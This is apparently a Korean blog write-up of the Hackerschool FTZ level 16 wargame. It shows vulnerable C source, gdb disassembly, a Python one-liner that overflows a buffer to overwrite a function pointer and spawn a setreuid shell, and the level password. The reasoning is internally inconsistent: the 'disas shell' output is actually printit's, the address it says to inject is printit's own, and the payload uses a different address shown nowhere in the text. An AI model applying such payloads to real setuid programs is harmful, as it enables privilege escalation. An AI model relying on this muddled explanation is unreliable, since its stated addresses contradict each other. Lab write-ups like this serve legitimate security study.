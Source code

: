 ```yaml
---
date: '2022-10-06'
before : '2022-10-05'
after : '2022-10-07'
title: '시스템 해킹(12) : 해커스쿨 FTZ 레벨 16'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```

### 0. 들어가기 전에.
여기까지 오니 슬슬 disas해서 스택을 살펴보는 과정은 (적어도 간단한 프로그램에선) 익숙해지는 것 같다!

### 1. Level 16

오늘은 함수 포인터에 관한 문제다. 소스코드를 확인해보자!
```
#include <stdio.h>

void shell() {

  setreuid(3097,3097);

  system("/bin/sh");

}

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  call();

}
```
void(*call)()=printit 부분에서 printit의 포인터를 가져와 call()로 실행시켜준다. 즉, 그냥 printit을 실행하는 함수이다. fgets에서 48바이트 입력받으니 오버플로우는 충분히 가능하다. 그럼 우리가 해야 할 일은?


**shell 함수의 메모리 주소를 찾아내 *call에 덮어씌우면 된다!**

gdb에서 disas shell을 해보니 :
```
0x08048500 <printit+0>: push   ebp
0x08048501 <printit+1>: mov    ebp,esp
0x08048503 <printit+3>: sub    esp,0x8
0x08048506 <printit+6>: sub    esp,0xc
0x08048509 <printit+9>: push   0x80485c0
0x0804850e <printit+14>:        call   0x80483a4 <printf>
0x08048513 <printit+19>:        add    esp,0x10
0x08048516 <printit+22>:        leave
0x08048517 <printit+23>:        ret

```
ebp가 08048500을 가리키는 것을 볼 수 있다. 따라서 그냥 저 주소를 BOF공격으로 넣어주면 된다. 우리 배열부터 call 포인터까지의 거리는 main을 disas해보면 알 수 있을것이다 : 
```
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
0x08048543 <main+43>:   nop
0x08048544 <main+44>:   nop
0x08048545 <main+45>:   nop
0x08048546 <main+46>:   nop
0x08048547 <main+47>:   nop
0x08048548 <main+48>:   nop
0x08048549 <main+49>:   nop
```
저번 문제와 똑같이 거리는 40이다. 그럼 공격 코드도 다음과 같을 것이다 :
```
(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme
```
실행하면 Shell을 얻을 수 있다! 이 문제 또한 간단한 것 같다.


비밀번호 : king poetic
---
## Source

- 해커스쿨 FTZ
- Me!
